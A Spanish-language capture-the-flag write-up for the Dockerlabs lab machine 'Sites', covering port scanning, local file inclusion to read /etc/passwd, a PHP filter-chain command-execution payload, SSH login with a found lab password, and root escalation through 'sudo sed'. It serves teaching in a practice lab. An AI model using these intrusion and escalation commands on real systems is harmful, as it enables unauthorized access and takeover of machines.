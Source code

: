 Hoy haremos la maquina Sites de [Dockerlabs](https://dockerlabs.es)

![autor](./imagenes/autor.png)

Autor: [ElPingüinoDeMario](https://www.youtube.com/@ElPinguinoDeMario)

Dificultad: Medio

Vulnerabilidad: LFI(Local File Inclusion)

Herramientas a utilizar: Nmap, Hydra

​						Opcional: Gobuster

Scripts necesarios: [Php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

# INTRUSIÓN 

Primero comenzamos haciendo un escaneo de nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 19:29 -03
Initiating ARP Ping Scan at 19:29
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 19:29, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 19:29
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 19:29, 1.69s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-08-05 19:29:42 -03 for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.91 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

No se encuentra nada interesante así que continuaremos entrando desde el navegador para ver que encontramos.

#### PUERTO 80:

![puerto80](/home/macimo/Documents/Dockerlabs/maquina-sites/imagenes/puerto80.png)

Luego de estar leyendo la página veo que trata como de un "foro" el cual explica un poco de la vulnerabilidad LFI. Revisé el código fuente y no encontré nada pero por probar antes de usar feroxbuster/gobuster se me ocurrió entrar a un archivo que nombraba en la "publicación", el cual se llama "vulnerable.php". Resulta que si es un archivo y ya no nos hace falta usar feroxbuster/gobuster ; nos dice lo siguiente:

![vulnerablePHP](/home/macimo/Documents/Dockerlabs/maquina-sites/imagenes/vulnerablePHP.png)

Nos dice que le demos un "page" o "username", viendo que la extensión del archivo es '.php' podemos probar poner '?page=' o '?username=' e introducir algo, si en "username" ponemos cualquier cosa nos da la bienvenida pero en "page" se encuentra lo interesante ya que podremos hacer un LFI, y leer archivos del sistema. Primero probé poner "../../../../../../../../../etc/passwd" como algo típico pero quedaba en blanco, así que probé con "/etc/passwd" y ya me mostró el archivo, por lo que confirmamos que trata de un LFI.

Intento conseguir el "id_rsa" de root o de alguno de los usuarios por probar ya que antes vimos que el puerto 22 de ssh estaba abierto, pero no funciona; así que se me ocurre utilizar los [wrapper](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md) de php. Al probarlos vemos que funcionan por lo que significa que podemos ejecutar comandos ayudándonos con el script [Php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) simplemente poniendo 

```bash
python3 php_filter_chain_generator.py --chain "<?php system('comando que queramos'); ?>"
```

Estuve un rato probando en subir un archivo y enviarme una reverse shell pero finalmente la solución fue mucho mas simple ya que se encontraba un archivo llamado "archivitotraviesito" el cual tenia lo siguiente:
![archivitotraviesito](./imagenes/archivitotraviesito.png)

Por lo que ya tenemos la contraseña del ssh(el mensaje no nos dice el usuario pero como nosotros vimos el "/etc/passwd" y sabemos que hay uno llamado chocolate, pero para confirmar podríamos usar hydra o medusa dependiendo de los gustos). Nos conectamos por ssh con usuario "chocolate" y contraseña "lapasswordmasmolonadelacity" y listo, estamos dentro.

# ESCALADA DE PRIVILEGIOS

Ya estando dentro podemos ejecutar "sudo -l" para ver si tenemos suerte y podemos ejecutar algun binario como root. Por suerte encontramos lo siguiente:

```bash
chocolate@2e528d8225be:~$ sudo -l
Matching Defaults entries for chocolate on 2e528d8225be:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User chocolate may run the following commands on 2e528d8225be:
    (ALL) NOPASSWD: /usr/bin/sed
chocolate@2e528d8225be:~$ 

```

luego de buscar en [GTFOBins](https://gtfobins.github.io/) vemos que podemos realizar una escalada mediante ese binario usando 

```bash
sudo sed -n '1e exec sh 1>&0' /etc/hosts
```

ejecutamos

```bash
bash
```

y listo. SOMOS ROOT

![root](./imagenes/root.png)

Opinión¿?:

Buena maquina para aprender un poco de LFI y muy entretenida











Por si te interesa:

[IG](https://instagram.com/macim0_)









Agradecimientos:

[messi](https://instagram.com/leomessi)